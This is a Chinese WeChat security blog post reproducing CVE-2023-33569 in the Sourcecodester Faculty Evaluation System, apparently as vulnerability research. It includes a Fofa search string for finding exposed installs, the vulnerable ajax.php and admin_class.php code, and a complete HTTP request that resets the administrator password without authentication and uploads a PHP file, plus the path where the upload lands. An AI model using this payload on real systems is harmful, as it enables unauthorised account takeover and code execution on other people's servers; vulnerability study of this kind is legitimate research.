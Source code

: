 #  Sourcecodeste Faculty Evaluation System v1.0 Rce(CVE-2023-33569)

原创 Swimt  [ 星悦安全 ](javascript:void\(0\);)

**星悦安全** ![]()

微信号 XingYue404

功能介绍 网络安全知识分享|渗透测试|代码审计|SRC|专注分享优质内容。

____

___发表于_

收录于合集

#代码审计 7 个

#漏洞复现 2 个

## 0x00 前言

 **Fofa: "assets/dist/css/jquery.datetimepicker.min.css"**

 **源码下载 :** **https://www.sourcecodester.com/php/14635/faculty-evaluation-
system-using-phpmysqli-source-code.html**

 **这是一套面板系统，看了代码之后只能说一言难尽.....     界面长这样**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175609.png)

## 0x01 前台任意重置管理员密码+文件上传漏洞

 **我们先看这个 ajax.php 里边调用了 update_user 方法**

    
    
    <?php  
    ob_start();  
    date_default_timezone_set("Asia/Manila");  
    $action = $_GET['action'];            //Get请求action  
    include 'admin_class.php';            //引用admin_class.php  
    $crud = new Action();  
    //省略其他无用代码......  
    ...  
    if($action == 'update_user'){  
    	$save = $crud->update_user();  
    	if($save)  
    		echo $save;  
    ...

 **追到 admin_class.php ,我们来看看 update_user
,看到里边直接更新了管理员的信息，顺带上传了文件，鉴权跟不存在一样...**

    
    
    	function update_user(){  
    		extract($_POST);  
    		$data = "";  
    		$type = array("","users","faculty_list","student_list");  
    	foreach($_POST as $k => $v){  
    			if(!in_array($k, array('id','cpass','table','password')) && !is_numeric($k)){  
    				  
    				if(empty($data)){  
    					$data .= " $k='$v' ";  
    				}else{  
    					$data .= ", $k='$v' ";  
    				}  
    			}  
    		}  
    		$check = $this->db->query("SELECT * FROM {$type[$_SESSION['login_type']]} where email ='$email' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;  
    		if($check > 0){  
    			return 2;  
    			exit;  
    		}  
    		if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){  
    			$fname = strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];  
    			$move = move_uploaded_file($_FILES['img']['tmp_name'],'assets/uploads/'. $fname);  
    			$data .= ", avatar = '$fname' ";  
      
    		}  
    		if(!empty($password))  
    			$data .= " ,password=md5('$password') ";  
    		if(empty($id)){  
    			$save = $this->db->query("INSERT INTO {$type[$_SESSION['login_type']]} set $data");  
    		}else{  
    			echo "UPDATE {$type[$_SESSION['login_type']]} set $data where id = $id";  
    			$save = $this->db->query("UPDATE {$type[$_SESSION['login_type']]} set $data where id = $id");  
    		}  
      
    		if($save){  
    			foreach ($_POST as $key => $value) {  
    				if($key != 'password' && !is_numeric($key))  
    					$_SESSION['login_'.$key] = $value;  
    			}  
    			if(isset($_FILES['img']) && !empty($_FILES['img']['tmp_name']))  
    					$_SESSION['login_avatar'] = $fname;  
    			return 1;  
    		}  
    	}

 **如果成功就会 return 1 中间还有一串检测邮箱的代码，但问题不大:**

    
    
    $check = $this->db->query("SELECT * FROM {$type[$_SESSION['login_type']]} where email ='$email' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;

 **Payload:**

    
    
    POST /eval/ajax.php?action=update_user HTTP/1.1  
    Host: x.x.x.x  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0  
    Accept: */*  
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3  
    Accept-Encoding: gzip, deflate  
    X-Requested-With: XMLHttpRequest  
    Referer: http://x.x.x.x/eval/index.php?page=report  
    Content-Length: 737  
    Content-Type: multipart/form-data; boundary=---------------------------166782539326470  
    Connection: close  
      
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="id"  
      
    1  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="firstname"  
      
    Administrator  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="lastname"  
      
    a  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="email"  
      
    admin@admin.com  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="password"  
      
    admin  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="img"; filename="php.php"  
    Content-Type: application/octet-stream  
      
    <?php phpinfo();?>  
    -----------------------------166782539326470--

 **没有显示上传路径咋办?  直接登录后台看 ****admin@admin.com|admin** **因为密码已经被修改了...**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175610.png)

 **文件实际上传在这:** **/assets/uploads/时间戳_filename.php**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175611.png)

#  **免责声明：**
**文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！！**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

